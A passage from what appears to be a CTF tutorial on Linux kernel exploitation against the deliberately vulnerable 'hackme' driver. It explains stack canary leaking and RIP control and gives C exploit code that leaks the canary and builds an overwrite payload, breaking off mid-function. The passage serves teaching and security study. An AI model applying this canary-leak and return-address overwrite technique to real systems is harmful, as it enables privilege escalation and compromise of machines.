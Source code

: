 [This tutorial](https://blog.wohin.me/posts/linux-kernel-pwn-01/)
computes the offset of the stack canary simply through reverse
engineering.
[This
tutorial](https://0x434b.dev/dabbling-with-linux-kernel-exploitation-ctf-challenges-to-learn-the-ropes/)
detects the stack canary automatically by assuming that it does not
start with `ffff` and ends in `00`.

# Controlling RIP

As a next step, we want to check if we can control the instruction
pointer RIP.
As mentioned above, we can overwrite the stack using the function
`hackme_write`. When this function is done, the stack is unwound.
This means, that the previous stack context has to be recovered.
RBX and RBP are so-called callee-saved registers. Hence, they have to be
restored from the stack. Further, R12 is popped. I don't know what R12 is good for, or why that happens, but this is the way things are.
Finally, the instruction pointer RIP is popped.

So we can construct a payload and write it to `/dev/hackme`.

{% highlight C %}
#include <fcntl.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *VULN_DRV = "/dev/hackme";

int64_t global_fd = 0;
uint64_t cookie = 0;
uint64_t cookie_off = 16;


void open_dev() {
    global_fd = open(VULN_DRV, O_RDWR);
    if (global_fd < 0) {
        printf("[-] failed to open %s\n", VULN_DRV);
        exit(-1);
    } else {
        printf("[+] successfully opened %s\n", VULN_DRV);
    }
}


void leak_cookie() {
    uint8_t sz = 40;
    uint64_t leak[sz];
    printf("[*] trying to leak up to %ld bytes memory\n", sizeof(leak));
    uint64_t data = read(global_fd, leak, sizeof(leak));
    cookie = leak[cookie_off];
    printf("[+] leaked cookie 0x%lx at offset %d \n", cookie, cookie_off);
}

void control_rip() {
    uint8_t sz = 40;
    uint64_t payload[sz];
    payload[cookie_off++] = cookie;
    payload[cookie_off++] = (uint64_t) 0x4444444444444444;  // RBX
    payload[cookie_off++] = (uint64_t) 0x4343434343434343;  // R12
    payload[cookie_off++] = (uint64_t) 0x4242424242424242;  // RBP
    payload[cookie_off++] = (uint64_t) 0x4141414141414141;  // RIP